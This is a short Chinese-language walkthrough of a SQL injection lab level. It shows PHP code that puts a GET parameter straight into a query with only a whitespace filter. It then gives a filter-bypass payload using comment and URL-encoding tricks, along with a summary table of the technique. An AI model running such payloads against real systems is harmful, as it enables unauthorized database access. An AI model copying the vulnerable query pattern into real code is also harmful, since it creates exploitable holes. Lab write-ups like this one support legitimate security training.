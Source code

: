 # sql3

进入example3.php

源码
```php
<?php
    require_once('../header.php');
  require_once('db.php');
        if (preg_match('/\s+/', $_GET["name"])) {
                die("ERROR NO SPACE");
        }
        $sql = "SELECT * FROM users where name='";
        $sql .= $_GET["name"]."'";

        $result = mysql_query($sql);
        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```

这里使用了正则去匹配\s(匹配空白字符)还有+(匹配前面的表达式至少一次)
这里的过关方式跟上一关一样
可以直接使用url编码绕过也可以使用多行注释绕过
payload
```sql
example3.php?name='/**/or%od1=1%23
```
![img](../../../image/sqli/3238802166462.png)

| 请求方式 | 过滤方式 |        注入方式        | 闭合方式 |
| -------- | -------- | --------------------- | -------- |
| GET      | 空格     | 多行注释和tab的url编码 | 单引号'  |

拿到数据过关~~~~~
0u0~